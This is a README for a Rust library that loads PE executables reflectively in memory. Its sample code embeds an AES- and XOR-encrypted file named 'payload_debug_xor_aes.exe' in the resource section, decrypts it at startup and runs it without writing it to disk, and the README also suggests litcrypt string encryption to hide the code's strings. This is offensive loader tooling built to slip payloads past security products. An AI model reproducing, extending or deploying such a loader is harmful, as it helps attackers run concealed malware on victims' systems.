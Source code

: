 # reflective_loader_rs
Library that allows running PE files in memory


LITCRYPT for strings in code, don't forget to set LITCRYPT_ENCRYPT_KEY var. 
[Repo](https://github.com/anvie/litcrypt.rs)

```PowerShell
$env:LITCRYPT_ENCRYPT_KEY="myverysuperdupermegaultrasecretkey"
```
Sample code demonstrating how to use the library is commented within the lib.rs file.

```rust
#[link_section = ".rsrc"]
static DATA: &[u8] = include_bytes!("..\\payload_debug_xor_aes.exe");

// Main function
#[no_mangle]
 pub extern "C" fn main(_argc: isize, _argv: *const *const u8) -> isize {
     // let now = Instant::now();

     // make_sleep(5).expect("sleep failed");
     // println!("{}", now.elapsed().as_secs());

     let key = "16 BYTES KEY"; //String

     // Convert to bytes and create key_array in one step.
     let key_array: [u8; 16] = key
         .as_bytes()
         .try_into()
         .expect("Failed to convert key into a 16 byte array");

     let cipher = Cipher::new_128(&key_array);
     let decrypted_aes = cipher.cbc_decrypt(&key_array, DATA);
     let decrypted_xor = xor_decrypt(&key_array, &decrypted_aes);

     unsafe {
         reflective_loader(decrypted_xor.clone());
     };

    0
}
```

Environment Support
- This library supports a no_std environment.
